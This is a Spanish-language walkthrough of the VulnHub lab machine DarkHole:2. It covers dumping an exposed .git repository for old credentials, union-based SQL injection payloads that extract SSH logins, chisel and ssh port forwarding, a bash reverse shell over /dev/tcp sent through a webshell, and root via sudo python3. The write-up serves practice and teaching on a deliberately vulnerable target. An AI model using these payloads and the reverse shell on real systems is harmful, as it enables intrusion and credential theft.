# DarkHole:2

192.168.1.177



Ubuntu Focal

```bash
nmap --script http-enum -p80 192.168.1.177
```



Posible usuario SAURABH%20SINGH



No parece haber nada sospechoso en la web, tiene pinta de que va por el recurso /.git
./git/config



/.git/logs/refs/heads/master -> Encontramos logs de cambios en la rama master
` Jehad Alqurashi <anmar-v7@hotmail.com> 1630317764 +0300 commit (initial): First Initialize`
-
`Jehad Alqurashi <anmar-v7@hotmail.com> 1630317980 +0300  commit: I added login.php file with default credentials`
-
`Jehad Alqurashi <anmar-v7@hotmail.com> 1630318472 +0300  commit: i changed login.php file for more secure`
Encontramos el correo anmar-v7@hotmail.com
Se dice que login php tiene las default credentials, ¿podremos volver a una versión anterior de este proyecto?

Buscando encuentro una herramienta gitdumper.sh para clonar repositorios git en recursos expuestos (Leer archivos README tanto de dumper.sh como de extractor.sh)
```bash
gitdumper.sh http://192.168.1.177/.git/ /home/qarlg/Labs/VulnHub/darkhole:2
```







Ahora intentamos reconstruirlo con *extractor.sh*
```bash
./extractor.sh /home/qarlg/Labs/VulnHub/darkhole:2 /home/qarlg/Labs/VulnHub/darkhole:2
```



Nos salta un error pero agregamos la carpeta destino a git
```bash
git config --global --add safe.directory /home/qarlg/Labs/VulnHub/darkhole:2
```

Volvemos a ejecutar
```bash
./extractor.sh /home/qarlg/Labs/VulnHub/darkhole:2 /home/qarlg/Labs/VulnHub/darkhole:2
```



Se nos crean tres carpetas con datos del repositorio



Se exponen credenciales en login.php



No podemos acceder remotamente al servidor sql en un principio

En login.php de la version 0-..., que es la primera, encuentro credenciales



lush@admin.com:321

Estamos dentro



## Otra forma más rápida

Nos descargamos el repo con
```bash
wget -r http://192.168.1.177/.git
```

Entramos en la carpeta `192.168.1.177`
Buscamos logs
```bash
git log
```

ó
```bash
git log --online
```

Miramos los cambios que se han hecho en ese commit
```bash
git show aa2a5f3aa15bb402f2b90a07d86af57436d64917
```

(el hash del commit)
Vemos el login.php de la versión 0 sin tener que reconstruir el repo entero



Intentamos hacer una sql injection en la URL
1) Probamos desde burp url encodeando con ctrl+u (con el texto seleccionado)
`1' order by 100-- -` (url encodeado)
500 internal server error
`1' order by 7-- -`
500 internal server error
`1' order by 6-- -`
200 OK
Ya sabemos que la consulta tiene 6 columnas

2) Enumerar las bases de datos
Intentamos traer las columnas creando un registro con columnas de prueba (1,2,3,4,5,6) y comprobar si aparecen por pantalla y con qué valor para identificar el contenido
```sql
1' union select 1,2,3,4,5,6-- -
```

No vemos nada, los campos del formulario siguen igual, vamos a probar a coger un valor distinto del id para el que no haya datos ->
```sql
2' union select 1,2,3,4,5,6-- -
```

Descubrimos la asignación:



Sustituimos los valores de prueba 1,2,3,4,5,6 para intentar enumerar información como
`database()` o `schema_name`
```sql
2' union select 1,database(),3,4,5,6-- -
```

-> darkhole_2
```sql
2' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -
```

-> mysql
(*info sobre schema_name)*:



Esta query debería enumerar todas las bases de datos asique no se está representando bien la info en la respuesta ya que son varios outputs.
- Para ver bien la respuesta tendremos que concatenar el resultado con `group_concat()`
```sql
2' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata-- -
```

-> mysql,information_schema,performance_schema,sys,darkhole_2

3) Una vez tenemos la base de datos ahora atacaremos a las tablas
Ahora emplearemos el campo `table_name`, y en lugar de `information_schema.schemata`, usaremos el namespace `information_schema.tables` donde le tendremos que decir que la DB sea la que hemos encontrado *darkhole_2*
```sql
2' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```

-> ssh y users

4) Enumerar las columnas de la tabla target
Ahora emplearemos `column_name` y `information_schema.columns`donde el schema es *darkhole_2* y la tabla es *ssh* (en nuestro caso es *ssh*, también existe otra llamada *users*)
```sql
2' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name='ssh'-- -
```

-> id, user, pass

5) Enumerar valores
Tendremos que hacer un `group_concat()` de las columnas, separadas por `':'` o lo mismo pero en hexadecimal que es '0x3a'.
- Como la tabla ya está en uso, no hará poner todo el recorrido por DB, table y column, sino que al estar en uso con poner el nombre de la tabla `from ssh` será suficiente
```sql
2' union select 1,group_concat(user,':',pass),3,4,5,6 from ssh-- -
```

**jehad:fool** --> ssh

## Escalada

/home/lusy/user.txt
*DarkHole{'This_is_the_life_man_better_than_a_cruise'}*

Encontramos credenciales en /var/www/html/config/config.php



root:Qrc123
No podemos hacer nada con estas credenciales

Si consultamos el historial de jehad en /home/jehad/.bash_history podemos ver que hay un servicio corriendo en el puerto 9999, lo que parece una webshell



Se hacen peticiones con cmd a una shell en la web

```bash
netstat -nat
```



Comprobamos que le puerto 9999 está a la escucha



Miramos los servicios que corren en la maquina filtrando por el puerto 9999
```bash
ps -faux | grep 9999
```

Vemos un servidor montado levantado en php `php -S localhost:9999` en `/opt/web`ejecutado por el usuario losy



Externamente
Husmeamos el contenido de /opt/web/ y vemos un index.php:



Vemos que el contenido es ejecutar lo que se le pase al parámetro 'cmd' por una shell
- Haremos esto por curl
```bash
curl http://localhost:9999/index.php?cmd=whoami
```



**OTRA FORMA** por chisel Remote Port Forwarding (desde MV a kali)
- Acudimos a chisel cuando hay un puerto que está abierto internamente (9999) en la máquina pero no se ve desde fuera con nmap. Podremos hacer tunneling a través de un tunel privado
1) Nos descargamos de github el recurso de https://github.com/jpillora/chisel/releases/tag/v1.11.3 -> *chisel_1.11.3_linux_amd64.gz*.
```bash
mv /home/qarlg/Descargas/chisel_1.11.3_linux_amd64.gz chisel.gz
gunzip chisel.gz
```

Ya tenemos el ejecutable chisel
2) Pasarlo a la máquina víctima
```bash
python3 -m http.server
```

Desde la MV
```bash
wget http://192.168.1.249:8000/chisel
```

3) Ejecutar chisel para el Remote Port Forwarding
- En el servidor en KALI
```bash
./chisel server --reverse -p 1234
```

-En MV indicar al cliente donde se va a conectar (nuestro KALI 192.168.1.249)
```bash
./chisel client 192.168.1.249:1234 R:9999:127.0.0.1:9999
```

`{js}R:<PUERTO_EN_SERVIDOR>:<IP_EN_CLIENTE>:<PUERTO_EN_CLIENTE>`
Entablamos  conexión en modo cliente hacia el puerto 1234 de nuestra máquina diciéndole que el puerto `9999` de la máquina en la que se lanza el comando `127.0.0.1` sea el puerto `9999` del servidor chisel levantado (nuestro kali `:9999`)
- Previamente hemos comprobado que en nuestro kali no hay nada corriendo en el puerto 9999
```bash
lsof -i:9999
```

4) Entramos a la redirección en el navegador en `127.0.0.1:9999`



**OTRA FORMA** por ssh Local Port Forwarding
(local porque traemos el puerto a nuestro kali desde K, no desde la MV)
```bash
ssh jehad@192.168.1.177 -L 9999:127.0.0.1:9999
```

Lanzaremos una revshell desde la url?cmd=
`bash -c "bash -i %26&/dev/tcp/192.168.1.249/4444 0%26%&1"`
**losy**

Encontramos credenciales en /home/losy/.bash_history



**losy:gang**
```bash
sudo -l
```

*(root) /usr/bin/python3*

```python
sudo python3 -c 'import os; os.system("/bin/sh")'
```

**root**
DarkHole{'Legend'}
